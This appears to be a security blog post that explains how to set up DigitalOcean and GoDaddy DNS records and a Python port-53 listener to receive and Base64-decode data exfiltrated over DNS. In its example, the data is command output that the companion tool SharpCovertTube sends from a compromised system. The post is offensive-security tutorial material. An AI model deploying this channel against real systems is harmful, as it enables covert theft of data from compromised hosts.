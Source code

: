 ```yaml
---
layout: post
title: DNS Exfiltration
excerpt_separator: <!--more-->
---
```



Notes and custom scripts for DNS exfiltration using DigitalOcean and GoDaddy. This project is a complement for SharpCovertTube, it covers how to receive and decode the DNS exfiltrated data.

<!--more-->

Repository: [https://github.com/ricardojoserf/dns-exfiltration](https://github.com/ricardojoserf/dns-exfiltration)


<br>

-------------------------------------------

### DigitalOcean

Create a project, connect the GoDaddy's domain to it and create a droplet.

![img2b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2b.png)

Then, add the following DNS records:

- "A" record for your domain, for example "domain.com", pointing to the droplet's IP address.
- "A" record for subdomain "ns" pointing to the droplet's IP address.
- "NS" record for a subdomain, for example "steve", pointing to the droplet's IP address.
   - NOTE: This is the subdomain we will use for DNS exfiltration.
- "NS" record redirecting to ns1.digitalocean.com (if not already in there).
- "NS" record redirecting to ns2.digitalocean.com (if not already in there).
- "NS" record redirecting to ns3.digitalocean.com (if not already in there).

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_3.png)

<br>

-------------------------------------------

### GoDaddy

After purchasing a domain in GoDaddy, visit the "DNS Management" section ([https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns](https://dcc.godaddy.com/manage/YOUR_DOMAIN/dns)). You have to add an entry in the "Hostname" subsection, which will contain the host "ns" and will point to your DigitalOcean droplet's IP address:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_1.png)

Then, in "Nameservers" subsection, add the DigitalOcean nameservers if they are not already in there (ns1.digitalocean.com, ns2.digitalocean.com and ns3.digitalocean.com):

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_2.png)


<br>

-------------------------------------------

### Testing DNS exfiltration

We can now run a Python script to start monitoring DNS queries to the subdomains "*.steve.domain.com": 

```python
import socket
from dnslib import DNSRecord

ns_subdomain = ".steve"

server = socket.socket (socket.AF_INET, socket.SOCK_DGRAM)
server.bind(('0.0.0.0', 53))

while True:
  data, addr = server.recvfrom (4096)
  d = DNSRecord.parse(data)
  subdomain = str(d.questions[0]._qname).split(ns_subdomain)[0]
  print("Subdomain: " + subdomain)
```

It must be run as superuser and the port 53 is probably already in use so first we can stop any process using that port with:

```
fuser -k 53/udp
```

For example, if your domain is "domain.com" and the record added to DigitalOcean is "steve", we could run a DNS query (from any system) to the subdomain "test.steve.domain.com". If everything is correct, we should see an output similar to this: 

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_5.png)

However even with a simple "nslookup test.steve.domain.com" command we will find that there are too many queries and they get repeated, so we will use custom scripts to monitor these DNS queries.

<br>

-------------------------------------------

### Custom Scripts

If everything works fine, we can run the custom script dns.py where you can set the subdomain to monitor with the parameter -s and a file to store the program output with the parameter -l:

```
python3 dns.py [-s SUBDOMAIN] [-l LOGFILE]
```

Then, the output can be decoded using the custom script decode.py, where you can set a filter with a list of comma-separated minutes from the log file with the parameter -f and the log file to read from with the parameter -l. The implemented decoding function decodes Base64 but you can change it depending on how you encode the exfiltrated data:

```
python3 decode.py -f FILTER_MINUTES -l LOGFILE
```

As an example, I run the [SharpCovertTube](https://github.com/ricardojoserf/SharpCovertTube) program which exfiltrates the command output from the compromised system via DNS, generating several queries:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_6.png)

These queries are received by dns.py, which is monitoring the subdomains "*.steve.domain.com", and get stored in the file log.txt:

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_7.png)

Then we can Base64-decode the DNS queries received in the minute 11:08 and stored in log.txt:

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/dns-exfiltration/Screenshot_8.png)

<br>

------------------------

### Sources

For the DigitalOcean and GoDaddy set up I used mostly John Woodman's research:

- [https://john-woodman.com/research/dns-exfiltration-setup/](https://john-woodman.com/research/dns-exfiltration-setup/)


<br>